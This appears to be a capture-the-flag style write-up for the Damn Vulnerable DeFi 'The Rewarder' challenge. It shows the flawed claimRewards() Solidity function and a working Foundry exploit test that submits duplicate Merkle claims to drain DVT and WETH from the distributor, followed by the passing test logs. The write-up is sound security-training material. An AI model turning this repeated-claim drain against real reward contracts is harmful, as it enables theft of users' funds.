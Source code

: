 # Damn Vulnerable Defi - The Rewarder
- Scope
    - TheRewarderDistributor.sol
- Tools
    - [Foundry](https://github.com/foundry-rs/foundry)

# Findings

## Incorrect claims accounting leading to repeated claims

### Summary
The `claimRewards()` function does not update and mark the claim as Claimed after rewarding, resulting in one claim to be repeatedly claimed.

### Vulnerability Details
The `claimRewards()` function allowed claiming multiple times in a single transaction and only updates the claim as Claimed at the end of it. Hence, it could be exploited by submitting one claim repeatedly to drain the contract before it is marked as Claimed.
```diff
// Allow claiming rewards of multiple tokens in a single transaction
    function claimRewards(Claim[] memory inputClaims, IERC20[] memory inputTokens) external {
        Claim memory inputClaim;
        IERC20 token;
        uint256 bitsSet; // accumulator
        uint256 amount;

        for (uint256 i = 0; i < inputClaims.length; i++) {
            inputClaim = inputClaims[i];

            uint256 wordPosition = inputClaim.batchNumber / 256;
            uint256 bitPosition = inputClaim.batchNumber % 256;

            if (token != inputTokens[inputClaim.tokenIndex]) {
                if (address(token) != address(0)) {
                    if (!_setClaimed(token, amount, wordPosition, bitsSet)) revert AlreadyClaimed();
                }

                token = inputTokens[inputClaim.tokenIndex];
                bitsSet = 1 << bitPosition; // set bit at given position
                amount = inputClaim.amount;
            } else {
                bitsSet = bitsSet | 1 << bitPosition;
                amount += inputClaim.amount;
            }

            // for the last claim
            if (i == inputClaims.length - 1) {
                if (!_setClaimed(token, amount, wordPosition, bitsSet)) revert AlreadyClaimed();
            }

            bytes32 leaf = keccak256(abi.encodePacked(msg.sender, inputClaim.amount));
            bytes32 root = distributions[token].roots[inputClaim.batchNumber];

            if (!MerkleProof.verify(inputClaim.proof, root, leaf)) revert InvalidProof();

            inputTokens[inputClaim.tokenIndex].transfer(msg.sender, inputClaim.amount);
        }
    }
```

### Impact/Proof of Concept
1. Create a list of claims to repeatedly claim the same allocated amount
2. Submit the list of claims and drain the contract
3. Transfer the tokens over to recovery
```diff
function test_theRewarder() public checkSolvedByPlayer {
        console.log("playerAddr: ", player);
        // Find the distribution allocated to player (0x44E97aF4418b7a17AABD8090bEA0A471a366305C) in dvt-distribution.json & weth-distribution.json
        uint PLAYER_DVT_CLAIM_AMOUNT = 11524763827831882;
        uint PLAYER_WETH_CLAIM_AMOUNT = 1171088749244340;

        bytes32[] memory dvtLeaves = _loadRewards(
            "/test/the-rewarder/dvt-distribution.json"
        );
        bytes32[] memory wethLeaves = _loadRewards(
            "/test/the-rewarder/weth-distribution.json"
        );

        // Calculate how many tx is needed to fully drain both tokens
        uint dvtTxCount = TOTAL_DVT_DISTRIBUTION_AMOUNT / PLAYER_DVT_CLAIM_AMOUNT;
        uint wethTxCount = TOTAL_WETH_DISTRIBUTION_AMOUNT / PLAYER_WETH_CLAIM_AMOUNT;
        uint totalTxCount = dvtTxCount + wethTxCount;

        IERC20[] memory tokensToClaim = new IERC20[](2);
        tokensToClaim[0] = IERC20(address(dvt));
        tokensToClaim[1] = IERC20(address(weth));

        // Create the list of Claims
        Claim[] memory claims = new Claim[](totalTxCount);
        // Add the claims into list
        for (uint i = 0; i < totalTxCount; i++) {
            if (i < dvtTxCount) {
                claims[i] = Claim({
                    batchNumber: 0, // claim corresponds to first DVT batch
                    amount: PLAYER_DVT_CLAIM_AMOUNT,
                    tokenIndex: 0, // claim corresponds to first token in `tokensToClaim` array
                    proof: merkle.getProof(dvtLeaves, 188) // Index of player's node
                });
            } else {
                claims[i] = Claim({
                    batchNumber: 0, // claim corresponds to first WETH batch
                    amount: PLAYER_WETH_CLAIM_AMOUNT,
                    tokenIndex: 1, // claim corresponds to second token in `tokensToClaim` array
                    proof: merkle.getProof(wethLeaves, 188) // Index of player's node
                });
            }
        }

        // Start claimRewards()
        distributor.claimRewards({
            inputClaims: claims,
            inputTokens: tokensToClaim
        });

        // Transfer the tokens over to recovery
        dvt.transfer(recovery, dvt.balanceOf(player));
        weth.transfer(recovery, weth.balanceOf(player));
        console.log("distributor WETH balance: ", weth.balanceOf(address(distributor)) / 1e15);
        console.log("distributor DVT balance: ", dvt.balanceOf(address(distributor)) / 1e16);
        console.log("recovery WETH balance: ", weth.balanceOf(recovery));
        console.log("recovery DVT balance: ", dvt.balanceOf(recovery));
    }
```

Results
```diff
[PASS] test_theRewarder() (gas: 1011608840)
Logs:
  playerAddr:  0x44E97aF4418b7a17AABD8090bEA0A471a366305C
  distributor WETH balance:  0
  distributor DVT balance:  0
  recovery WETH balance:  998938703105422020
  recovery DVT balance:  9991970238730241694

Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 3.26s (3.24s CPU time)
```
